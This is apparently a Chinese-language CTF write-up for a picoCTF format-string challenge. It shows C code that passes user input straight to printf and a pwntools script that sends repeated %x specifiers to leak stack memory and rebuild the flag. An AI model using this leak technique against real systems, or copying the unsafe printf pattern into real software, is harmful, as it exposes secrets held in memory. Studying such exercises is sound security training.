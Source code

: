 + User input
```c=
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
>`printf(user_buf)`; 就是問題所在，printf 第一個參數必須先有一個格式字串，第二個參數以後才是變數，但這邊的用法直接是一個字串變數，所以我們可以自己輸入格式字串！
也就是我們可以自己輸入 %d, %s, %x 等等，那程式就會以為這是原本就有的格式字串，導致 printf 會因為你輸入的格式把後面記憶體位址的變數印出來。

```python=
from pwn import *

r = remote('mercury.picoctf.net',20195)

r.sendlineafter(b'2) View my portfolio',b'1\n')

r.recvuntil(b'What is your API token?')
r.sendline(b'%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x')
# r.sendline(b'%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s-%s')
r.recvline()
r.recvline()
s=r.recvline()
print(s)
l = s.split(b'-')

flag = b''
for i in l:
    i = int(i, base=16)
    flag+=pack(i, 32,'little')

if b'pico' in flag:
    print(flag)

r.close()
```
```python=
for i in l:
    i = int(i, base=16)
    flag+=pack(i, 32,'little')
```
+ `i = int(i, base=16)`：將十六進位數字轉換為整數。
+ `pack(i, 32, 'little')`：使用 pack 函數將整數 u 打包成 32 位元的小端字節序。這裡的 32 表示希望每個整數被打包為 32 位元，而 'little' 表示使用小端字節序（低位元組優先）。

`REF` : https://ithelp.ithome.com.tw/m/articles/10281425


two-sum
--

`c-int-%d`:  -2147483648至2147483647
